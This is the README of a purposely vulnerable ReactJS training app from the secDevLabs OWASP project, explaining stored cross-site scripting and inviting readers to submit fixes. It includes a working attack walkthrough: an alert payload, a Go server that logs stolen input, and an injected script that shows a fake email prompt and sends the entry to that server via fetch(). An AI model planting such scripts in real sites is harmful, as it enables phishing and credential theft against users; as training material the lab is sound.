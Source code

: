 # Comment-killer

[Acessar conteúdo em Português](README_PT_BR.md)

<p align="center">
    <img src="images/img1.png"/>
</p>

Comment-killer is a simple ReactJS app, which has a Injection (XSS) vulnerability and its main goal is to describe how a malicious user could exploit it on this purposefully vulnerable app.

# Index

- [Definition](#what-is-cross-site-scripting)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

<a name="Def"></a>

## What is Cross-Site Scripting?

XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites.

The main goal of this app is to discuss how **Cross-Site Scripting** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws. Learn more <a href="https://owasp.org/www-community/attacks/xss/">here</a>.

<a name="Set" ></a>

## Setup

To start this intentionally **insecure application**, you will need [Docker](https://docs.docker.com/get-docker/) and [Docker Compose](https://docs.docker.com/compose/install/). After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```bash
cd secDevLabs/owasp-top10-2021-apps/a3/comment-killer
```

```bash
make install
```

Then simply visit [http://localhost:10007](http://localhost:10007) ! 😆

## Get to know the app 👾

To properly understand how this application works, you can follow these simple steps:

- Read the cool history behind the Memes.
- Add a new comment post.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### Note: This attack narrative works best in Mozilla Firefox.

### 👀

### Non-sanitization of user input allows for cross-site scripting

After inspecting the application, it is possible to identify that the comment entry is not sanitized and can be executed on a web browser. The following images show this behavior when the following text is used as an input on these fields:

```
<script>alert(1)</script>
```

Adding a new comment to a post:

<p align="center">
    <img src="images/img2.png"/>
</p>

The missing input validation allows a malicious user to insert some scripts that will persist in the server and be executed on the victims' browser every time they access the routes that contain these scripts.

#### 🔥

An attacker may abuse this flaw by generating a malicious JS code and sending it to other users. To demonstrate this, the following example will create an email form to try and steal user credentials.

Initially, an API is needed to log all received requests and can be built in Golang as follows:

```go
package main

import (
   "fmt"
   "github.com/labstack/echo"
)

func main() {
   e := echo.New()
   e.GET("/:email", handler)
   e.Logger.Fatal(e.Start(":9051"))
}

func handler(c echo.Context) error {
   fmt.Println(c.Request().RemoteAddr, c.Param("email"))
   return nil
}
```

In order to start the API, the following command can be used (you should check this [guide](https://golang.org/doc/install) if you need any help with Golang):

```sh
go run main.go
```

With the API now up and running, all that is needed is the following code to show a pop-up message requesting the user's email in order to continue reading the blog:

```js
<script>
    var email = prompt("Please input your email again to continue:", "email@example.com");

    if (email == null || email == "") {
        alert("Ooops, please refresh the page!");
    } else {
        fetch('http://localhost:9051/'+email);
    }
</script>
```

The above JavaScript code is responsible for sending a `GET` request to the attacker's API so it can be logged. In this scenario, we'll be sending requests to `localhost`.

All we need now is to paste the JavaScript code in the comments field, as shown by the following image:

<p align="center">
    <img src="images/img3.png"/>
</p>

When another user access the app, the following pop-up will be shown, as we can see in the image below:

<p align="center">
    <img src="images/img4.png"/>
</p>

Meanwhile, with the API up and running, we're able to receive the user's email, as shown by the next image:

<p align="center">
    <img src="images/img5.png"/>
</p>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Execute scripts through input fields

<a name="Sol"></a>

## PR solutions

[Spoiler alert 🚨] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3AComment-Killer)!

<a name="Cont"></a>

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10007
